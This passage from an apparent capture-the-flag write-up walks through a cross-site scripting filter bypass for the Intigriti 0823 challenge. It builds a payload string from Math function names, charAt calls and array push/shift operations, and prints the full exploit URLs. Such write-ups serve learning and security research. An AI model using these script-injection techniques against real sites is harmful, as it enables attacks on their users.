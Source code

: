 The payload is then

```
Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push
```

Some characters as I said before, don’t have index 0 but a greater one like 1, 2, 3 or even 4. We could in this case function like `Math.log10` to get a number inside that range or `Math.log1p` you could just try them all until you get the desired number. For example we need the character `o`. When searching for it, I first found it in the `round` string with index = 1. And after pushing the last character, push returned 11. Applying log10 to 11 will return 1.04. And so on and so far, until you generate all needed characters. The script is used for the character `.` and `)` later and that’s all.

These are the steps we executed till this point:

```
https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push
```

### Joining The Array To Form The Payload String

After pushing the payload to seeds array, before joining it we need to get rid of the first numbers that are still existing in our array. You could see it with the Dev Tools if you lost track at this point when reading.

![Remaining Numbers](/static/images/intigriti-0823/remaining_nums_seeds.png)

We have 4 numbers that still exist at the beginning of the array. How do we get rid of them? we could use the <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/shift" target="_blank">shift()</a> array method which works like pop array method but in reverse returning the first element in the array and removing it from the array. Also it doesn’t care about the passed argument and that’s fine for us since we are passing it as an argument the number returned from the last called push method. Here is the seeds array, after running the shift method 4 times on the seeds array at the end of the current payload.

![Seeds Array At The End](/static/images/intigriti-0823/seeds_after_4_shifts.png)

Clean! These are the steps we executed till now:

```
https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift
```